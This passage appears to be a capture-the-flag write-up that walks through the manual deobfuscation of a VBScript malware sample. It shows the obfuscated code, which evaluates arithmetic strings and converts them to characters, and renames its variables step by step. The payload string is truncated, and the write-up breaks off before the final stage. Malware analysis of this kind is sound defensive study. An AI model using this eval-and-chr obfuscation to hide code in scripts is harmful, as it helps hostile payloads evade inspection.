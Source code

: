 **Since this challenge's description said that this is a real malware, I'll deobfuscate it manually.**

**In line 1, it declares 3 variables:**
```vb
dIM jJkmPKZNvhSgPGmVLdvBVgOimreRTqiaEDiOcfNqy, AxEjAhgOVVhnXPrQQdPpAItXlqhuIRHOuDWWhvoyp, FwwcltIiESLKzggUCrjiaEUtjbmpvvGzwJNhoLFSp
```

**Then, in line 2 - 9, it has a function:**
```vb
Sub FncTqZirWltYCeayCzqdIRdKqrIzaKWRIZbSCprXS
JJKMpKZNvhsgPgMvldVBVGoiMRERTqiAEdIOcFNqY = "399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-7600*463-352*1137720/9980*214336/6698*-5139+5253*8037-7936*297045/2583*[...]*2065-2024"
axEjahGoVVhnxPRQQDPPaiTXLQhUIRhouDwwHvOyp = splIt(jjkMPKzNVhSgpGmvLdVBVGOimrerTQIaeDiocFNQY, chr(eVaL(75684/1802)))
for each MqNbrDAQjYRIwUnepBXnOsmlQlLuaaeTTwAchSFjz In AxEjahGovVHNxprqQdPPAITXLqhuiRHOuDwwhVOyP
FWwCltIiEsLkZgGUCRjiAEuTJbMpVVgZwJNhOLFSp = fwWCLtIieslKZgGUcrjIaEUTJBmPvvgZwjNHoLfSp & Chr(eVaL(MqnBrdaqjYRIwUnEPBxnoSMlqLluAaeTtwAchSFJz))
NEXT
lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD
end SUb
```

**We can rename the `JJKMpKZNvhsgPgMvldVBVGoiMRERTqiAEdIOcFNqY` variable to strings of numbers:**
```vb
dIM stringsOfNumbers, AxEjAhgOVVhnXPrQQdPpAItXlqhuIRHOuDWWhvoyp, FwwcltIiESLKzggUCrjiaEUtjbmpvvGzwJNhoLFSp
Sub FncTqZirWltYCeayCzqdIRdKqrIzaKWRIZbSCprXS
stringsOfNumbers = "399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-7600*463-352*1137720/9980*214336/6698*-5139+5253*8037-7936*297045/2583*[...]*2065-2024"
axEjahGoVVhnxPRQQDPPaiTXLQhUIRhouDwwHvOyp = splIt(stringsOfNumbers, chr(eVaL(75684/1802)))
for each MqNbrDAQjYRIwUnepBXnOsmlQlLuaaeTTwAchSFjz In AxEjahGovVHNxprqQdPPAITXLqhuiRHOuDwwhVOyP
FWwCltIiEsLkZgGUCRjiAEuTJbMpVVgZwJNhOLFSp = fwWCLtIieslKZgGUcrjIaEUTJBmPvvgZwjNHoLfSp & Chr(eVaL(MqnBrdaqjYRIwUnEPBxnoSMlqLluAaeTtwAchSFJz))
NEXT
lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD
end SUb
```

**Next, we can see that the `axEjahGoVVhnxPRQQDPPaiTXLQhUIRhouDwwHvOyp` variable is spliting the `stringsOfNumbers` with delimiter `*` (`chr(eVaL(75684/1802))` = `*`). So, let's rename it!**
```vb
dIM stringsOfNumbers, splitedStringsOfNumbers, FwwcltIiESLKzggUCrjiaEUtjbmpvvGzwJNhoLFSp
Sub FncTqZirWltYCeayCzqdIRdKqrIzaKWRIZbSCprXS
stringsOfNumbers = "399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-7600*463-352*1137720/9980*214336/6698*-5139+5253*8037-7936*297045/2583*[...]*2065-2024"
splitedStringsOfNumbers = splIt(stringsOfNumbers, "*")
for each MqNbrDAQjYRIwUnepBXnOsmlQlLuaaeTTwAchSFjz In splitedStringsOfNumbers
FWwCltIiEsLkZgGUCRjiAEuTJbMpVVgZwJNhOLFSp = fwWCLtIieslKZgGUcrjIaEUTJBmPvvgZwjNHoLfSp & Chr(eVaL(MqnBrdaqjYRIwUnEPBxnoSMlqLluAaeTtwAchSFJz))
NEXT
lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD
end SUb
```
